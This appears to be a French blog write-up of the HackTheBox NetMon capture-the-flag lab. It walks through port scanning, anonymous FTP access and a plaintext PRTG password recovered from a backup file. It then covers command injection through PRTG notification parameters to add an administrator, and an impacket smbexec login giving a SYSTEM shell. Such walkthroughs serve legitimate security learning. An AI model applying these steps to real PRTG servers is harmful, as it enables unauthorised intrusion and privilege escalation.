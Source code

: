 # Solution du CTF NetMon de HackTheBox

RealPain
--------

*NetMon* est un CTF facile (20 points seulement) basé sur Windows et proposé sur *HackTheBox*.  

Une partie de plaisir me direz-vous ? Le CTF était effectivement super facile mais entre les mots de passes réinitialisés en permanence, les resets intempestifs de la machine et les scripts kiddies qui lancent des exploits sans lire la moindre description ce CTF avait tout de l'enfer :p  

Free Flag
---------

On lance un masscan qui nous trouve les classiques ports Windows ainsi qu'un serveur FTP :  

```plain
$ sudo masscan -e tun0 --rate 1000 -p1-65535 10.10.10.152

Starting masscan 1.0.4 (http://bit.ly/14GZzcT)
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 49675/tcp on 10.10.10.152                                 
Discovered open port 49664/tcp on 10.10.10.152                                 
Discovered open port 139/tcp on 10.10.10.152                                   
Discovered open port 21/tcp on 10.10.10.152                                    
Discovered open port 49665/tcp on 10.10.10.152                                 
Discovered open port 49669/tcp on 10.10.10.152                                 
Discovered open port 5985/tcp on 10.10.10.152                                  
Discovered open port 135/tcp on 10.10.10.152                                   
Discovered open port 49666/tcp on 10.10.10.152                                 
Discovered open port 49671/tcp on 10.10.10.152                                 
Discovered open port 47001/tcp on 10.10.10.152
```

Le port 80 est lui aussi ouvert même s'il ne l'était pas lors du scan (merci les skidz !)  

On se connecte en FTP avec le user *anonymous* et on se rend compte que le serveur nous livre son *C:* en lecture seule (les droits semblent être l'équivalent d'un compte *Invité* cependant).  

C'est suffisant pour lire le flag présent dans *c:\users\public\desktop\user.txt* (dd58ce6--- snip ---8d9255a5).  

PRTGWUT?
--------

En explorant le disque on voit différents fichiers en relation avec PRTG, comme *c:\windows\restart.bat* :  

```plain
net stop PRTGCoreService
copy "c:\Windows\PRTG Configuration.dat" "C:\ProgramData\Paessler\PRTG Network Monitor"
net start PRTGCoreService
```

Ce fichier *.dat* est en réalité un fichier XML contenant la configuration de [PRTG](https://www.paessler.com/prtg). PRTG est un logiciel de monitoring assez poussé. On y défini des règles de surveillance et si quelque chose tourne mal cela provoque une notification (génération d'un rapport, envoi d'un email, exécution d'un programme, etc).  

Le fichier de configuration semble contenir des entrées correspondant à des mots de passe mais ces entrées encodées en base64 ont été visiblement préalablement chiffrées.  

Toutefois en fouillant sur Internet j'ai trouvé [ce post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) sur *Reddit* faisait part d'un bug de PRTG ayant provoqué à un moment le stockage en clair des mots de passe.  

Et effectivement j'ai trouvé sur le disque le fichier *PRTG Configuration.old.bak* qui lui contient un mot de passe en commentaire :  

```html
<dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
</dbpassword>
```

On s'empresse de tester ce mot de passe et il ne fonctionne pas... On essaye *PrTg@dmin2019*... bingo ! Cela nous ouvre les portes de l'interface web de PRTG en écoute sur le port 80.  

Si le service était aussi souvent indisponible c'est que certains participants ont du chercher PRTG via *searchsploit* ou autre et on eu le résultat suivant :  

```plain
$ searchsploit prtg
------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                          |  Path
                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------ ----------------------------------------
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)| exploits/windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                 | exploits/java/webapps/34108.txt
------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
```

Puis ils se sont empressés d'exécuter le code alors qu'il y a bien mentionné *Denial of Service* sur la gauche et *dos* dans le path X'D...  

Quoiqu'il en soit l'objectif est de créer une notification via le menu *Setup*. On choisit bien sûr une action de type exécution de commande.  

Seulement deux programmes sont proposés à l'exécution : un script bat que voici :  

```plain
REM Demo 'BAT' Notification for Paessler Network Monitor
REM Writes current Date/Time into a File
REM
REM How to use it:
REM
REM Create a exe-notification on PRTG, select 'Demo Exe Notifcation - OutFile.bat' as program,
REM The Parametersection consists of one parameter:
REM
REM - Filename
REM
REM e.g.
REM
REM         "C:\temp\test.txt"
REM
REM Note that the directory specified must exist.
REM Adapt Errorhandling to your needs.
REM This script comes without warranty or support.

Echo  %DATE% %TIME% >%1%
```

ou sa version *Powershell* que voici :  

```plain
if ($Args.Count -eq 0) {

  #No Arguments. Filename must be specified.

  exit 1;
 }elseif ($Args.Count -eq 1){

  $Path = split-path $Args[0];

  if (Test-Path $Path)
  {
    $Text = Get-Date;
    $Text | out-File $Args[0];
    exit 0;

  }else
  {
    # Directory does not exist.
    exit 2;
  }
}
```

L'injection se fait alors dans les paramètres que l'on passe au script choisit. Je pensais au début que le problème était lié à l'absence de guillemets ou apostrophes autour de *%1%* dans le batch mais en réalité les paramètres permettent d'injection directement ce que l'on veut.  

D'ailleurs on voit [au numéro 7 de cet article de la KB de PRTG](https://kb.paessler.com/en/topic/2543-how-can-i-execute-a-batch-file-as-notification) que PRTG conseillent eux-même d'encapsuler les paramètres entre double ou simple quotes à cet endroit... ça laisse supposer beaucoup de choses :D  

J'ai pu exploiter cela tout seul mais j'ai découvert au moment de l'écriture du présent article qu'il existe un blog traitant [de cette faille d'exécution de commande dans PRTG](https://www.codewatch.org/blog/?p=453).  

On pouvait alors créer un compte administrateur sur la machine de cette façon :  

![HackTheBox NetMon CTF PRTG notification command execution vulnerability](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/netmon_prtg_notif.png)

Comme le montre l'infobulle, au moment de la création de la notification il faut laisser vide les identifiants si on veut que la tache soit exécutée avec les droits du démon PRTG (qui tourne en SYSTEM).  

Quand on enregistre la notification, PRTG re-renseigne ces champs mais j'ai remarqué qu'au moins si un ~~enfoiré~~ impondérable change le mot de passe du compte *prtgadmin*, il suffit de re-supprimer le mot de passe dans la notification pour que celle-ci refonctionne (sinon elle échoue en raison du mot de passe qui n'est plus valide).  

Finalement on peut définir notre notification parmi les notifications de base (exécutées pour tous les événements) ou spécifiquement sur un événement.  

![HackTheBox NetMon CTF PRTG devices group notification](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/netmon_prtg_devices.png)

Une fois qu'on s'est battu pour que personne n'ai supprimé / modifié la notification ou changé le mot de passe tout est ok et on peut obtenir le flag root :  

```plain
$ PYTHONPATH=. python examples/smbexec.py NETMON/devloop:Uns3cUr3@10.10.10.152
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

Finally
-------

Au moment de ces lignes 2203 participants ont eu le flag user contre 741 seulement pour le flag root... cherchez l'erreur :(

*Published June 29 2019 at 18:25*